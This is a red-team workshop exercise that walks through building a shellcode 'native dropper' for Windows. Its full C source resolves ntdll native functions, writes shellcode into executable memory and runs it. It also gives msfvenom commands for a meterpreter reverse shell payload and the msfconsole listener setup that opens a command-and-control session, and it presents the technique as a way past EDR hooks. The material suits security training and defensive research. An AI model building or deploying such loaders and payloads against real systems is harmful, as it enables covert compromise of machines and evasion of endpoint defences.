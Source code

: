 ## Exercise 3: Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with **native APIs** also called **native functions** (ntdll.dll). We will create a dropper based on native APIs and call it **native dropper**.
<details>
     <p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/63b5a89f-f674-47b3-83c6-30f29f45b9cb">
</p>
</details>

## Exercice 3 tasks:
1. Download the native dropper poc from the Code section of this chapter.
2. The code in the poc is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll by using ``GetProcAddress``
3. Then create x64 meterpreter shellcode, copy it into the poc and compile it.  
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the poc from the code section of this chapter. In this poc, the four Win32 APIs from the Win32 dropper are replaced with the corresponding native functions.
- Memory allocation, ``VirtualAlloc`` is replaced by **``NtAllocateVirtualMemory``**.
- Write shellcode to memory, ``WriteProcessMemory`` is replaced by **``NtWriteVirtualMemory``**.
- Shellcode execution, ``CreateThread`` is replaced by **``NtCreateThreadEx``**.
- And ``WaitForSingleObject`` is replaced by **``NtWaitForSingleObject``**.

    
</details>

A few words about the functionality of the native dropper code. Unlike the Windows APIs, most native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. In the case of the Win32 dropper from the previous chapter, we don't need to worry about manually implementing function structures, or how to handle transitions from Win32 APIs to native APIs, etc. This is because the Windows headers like ``Windows.h`` have already implemented all the functionality and provide us with the functionality by using the Win32 APIs. If we use the native APIs directly, without the help of the Win32 APIs, it is a bit more complicated and additional code has to be used in the native dropper. The reason for this is that the Windows headers or libraries do not support the direct use of native functions, so we have to implement the required code manually. Which means to be able to use native funtions in the native dropper we have to get the memory address of each native function from ntdll.dll at runtime. 

First we need to define the function pointers for all the native functions we need. For example, ``typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);`` creates a new type ``PNTALLOCATEVIRTUALMEMORY`` which is a function pointer of type ``NTSTATUS``. In general, a function pointer is a type of pointer that points to a function instead of a data value or an array. It holds the memory address of a function, and using this pointer, we can call the function. This part is already fully implemented in the native dropper poc.
<details>
    
 ```C
// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
 ```
</details>
 
The second step is to get the memory address of each native function from ntdll.dll at runtime. So we use ``GetModuleHandleA`` to open a handle to ntdll.dll in memory. Then we pass the handle and the name e.g. ``NtAllocateVirtualMemory`` to ``GetProcAddress`` to get a pointer to the native function e.g. ``NtAllocateVirtualMemory`` in ntdll.dll. Next we cast this function pointer to the type ``PNTALLOCATEVIRTUALMEMORY`` and assign or store the resulting function pointer to the corresponding variable, e.g. ``NtAllocateVirtualMemory``. In simple words, ``NtAllocateVirtualMemory`` is declared as a function pointer of type ``PNTALLOCATEVIRTUALMEMORY`` and it holds the memory address of the ``NtAllocateVirtualMemory`` function as it is loaded into the current process from ntdll.dll. So when we call NtAllocateVirtualMemory in the native dropper code, we are actually calling the function from ntdll.dll at the memory address stored in the NtAllocateVirtualMemory function pointer. This **code part is not finished** and **must be completed by the workshop attendee**. In the native dropper poc you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```C
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
// or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");    
```    
     
</details>    

<details>
    <summary>Solution</summary>
If it was at this time not possible for you to complete the code for the three missing native functions, you can use the following code and copy it into the native dropper poc. 

```C
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
```        

</details>
    
Shellcode declaration same as before in the Win32 dropper.
<details>

```C
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
     
Here is the **complete code**, but you can also find it already implemented in the code poc of this chapter.
<details>
    
```C
#include <stdio.h>
#include <windows.h>

// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);

int main() {
    // This is placeholder shellcode. In a real use case, this would be replaced with actual shellcode
    // that you want to inject and execute. The shellcode is stored as an array of unsigned characters.
    unsigned char code[] = "\xfc\x48\x83";

    // Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");

    // Allocate a region of virtual memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode.
    // NtAllocateVirtualMemory is a function that reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process.
    // 'exec' will hold the base address of the allocated memory region.
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region.
    // NtWriteVirtualMemory is a function that writes into the virtual address space of a specified process.
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread.
    // NtCreateThreadEx is a function that creates a new thread for a process.
    // The new thread starts execution by calling the function at the start address specified in the lpStartAddress parameter. 
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the thread to finish executing.
    // NtWaitForSingleObject is a function that waits until the specified object is in the signaled state or the time-out interval elapses.
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 to indicate successful execution of the program.
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the native dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our native dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled native dropper. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Dropper Analysis: Dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the Win32 dropper, you can see that the native dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

     
     
## Dropper Analysis: x64dbg
The first step is to run your native dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the native dropper directly in x64dbg you need to run the assembly first.
     
     
<details>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/be7fcea9-cac7-4aa6-8e59-d7170e63a1d5">     
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls are used in the native dropper. What results do you expect?
     
<details>
    <summary>Solution</summary>
     
Checking the imported symbols in our native dropper, we should see that the Win32 APIs ``VirtualAlloc``, ``WriteProcessMemory``, ``CreateThread`` and ``WaitForSingleObject`` are no longer imported from kernel32.dll. So the result is the same as with dumpbin and seems to be valid.   
     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/95b9a92e-305c-4345-b40d-3241a7092161"> 
</p>  
     
In the case of the native dropper, we want to directly access the native functions in ntdll.dll. This is because the functions in ntdll.dll are not directly available through the standard Windows API headers and libraries. They have to be dynamically loaded at runtime.
If we analyse the disassembled code of the native dropper (Follow in dissassembler), we can identify the code where for each of the four native functions ``GetModuleHandleA`` is used to open the handle to ntdll.dll, pass the handle to ``GetProcAddress``, get the memory address of the native function e.g. NtAllocateVirtualMemory and store it into the respective function pointer.
     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/6278205b-6e46-4bf9-a273-1aebc44d6afe">
</p>     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/34f24524-476b-4659-b190-3d6b252262d7">
</p>

Furthermore, if we use the symbols register in x64dbg, we can identify the manually declared function pointers that are needed to use the native functions without the help of Win32 APIs from kernel32.dll.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d0845cdf-90d7-4200-8823-27929b1ee3bb">
</p>
</details>         
     
We also want to check, for example, for ``NtAllocateVirtualMemory``, from which module or memory location the ``syscall`` statement, ``return`` statement or native function code is executed.
     
<details>
    <summary>Solution</summary>
     
Because the defined function pointers only hold the memory address of the respective native function, once the memory address is called by executing the function pointer, or more precisely by executing the variable declared as a function pointer, the ``syscall`` statement, ``return`` statement, etc. must be executed from a memory location in ntdll.dll.    
     
</details>     

## Summary: Native Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via native_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR could be bypassed in context of user mode hooks in kernel32.dll
